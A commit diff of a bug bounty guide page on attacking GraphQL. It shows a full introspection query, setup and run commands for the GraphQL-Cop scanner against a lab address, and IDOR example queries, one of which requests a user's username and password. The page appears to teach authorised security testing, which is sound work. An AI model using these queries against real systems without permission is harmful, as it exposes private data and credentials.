

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/attacking-graphql.md, in a window 1280 px wide and 1400 px high, scrolled down 3146 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
finish attacking graphql page

````diff
--- a/docs/bug-bounty-guide/attacking-graphql.md
+++ b/docs/bug-bounty-guide/attacking-graphql.md
@@ -58,35 +58,35 @@
 
 **General Introspection**
 ```json
-query IntrospectionQuery {
-  __schema {
-    queryType { name }
-    mutationType { name }
-    subscriptionType { name }
-    types { ...FullType }
-    directives {
-      name
-      description
-      locations
-      args { ...InputValue }
+  query IntrospectionQuery {
+    __schema {
+      queryType { name }
+      mutationType { name }
+      subscriptionType { name }
+      types { ...FullType }
+      directives {
+        name
+        description
+        locations
+        args { ...InputValue }
+      }
     }
   }
-}
-fragment FullType on __Type {
-  kind name description
-  fields(includeDeprecated: true) {
-    name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason
+  fragment FullType on __Type {
+    kind name description
+    fields(includeDeprecated: true) {
+      name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason
+    }
+    inputFields { ...InputValue }
+    interfaces { ...TypeRef }
+    enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason }
+    possibleTypes { ...TypeRef }
   }
-  inputFields { ...InputValue }
-  interfaces { ...TypeRef }
-  enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason }
-  possibleTypes { ...TypeRef }
-}
-fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue }
-fragment TypeRef on __Type {
-  kind name
-  ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name }}}}}}}
-}
+  fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue }
+  fragment TypeRef on __Type {
+    kind name
+    ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name ofType { kind name }}}}}}}
+  }
 ```
 
 ## Batching Example
@@ -136,40 +136,36 @@
 python3 main.py -f -d -t http://STMIP:STMPO
 ```
 
+### GraphQL-Cop
+
+```bash
+git clone https://github.com/dolevf/graphql-cop
+cd graphql-cop
+python3 -m venv path/to/venv
+source path/to/venv/bin/activate
+python3 -m pip install -r requirements.txt
+python3 graphql-cop.py -h
+python3 graphql-cop/graphql-cop.py -t http://172.17.0.2/graphql
+```
+
 ## Insecure Direct Object Reference (IDOR)
 
 ### Identifying IDOR
 
-Replace a query value with another we know exist:
+Replace a query value with another we know exists:
 ![identifying idor](../images/idor_2.png)
 
 ### Exploiting IDOR
 
-Replace query with introspection query to determine what data can be accessed (escape quotation marks on the below query)
+Replace query with introspection query to determine what data can be accessed
 ```json
-{
-  __type(name: "UserObject") {
-    name
-    fields {
-      name
-      type {
-        name
-        kind
-      }
-    }
-  }
-}
+{"query":"{  __type(name: \"allProducts\") {    name    fields {      name      type {        name        kind      }    }  }}"}
 ```
 
 Adjust query to test if previously determined data fields are accessible
 
 ```json
-{
-  user(username: "test") {
-    username
-    password
-  }
-}
+{  user(username: "test") {    username    password  }}
 ```
 
 ## Injection Attacks
````
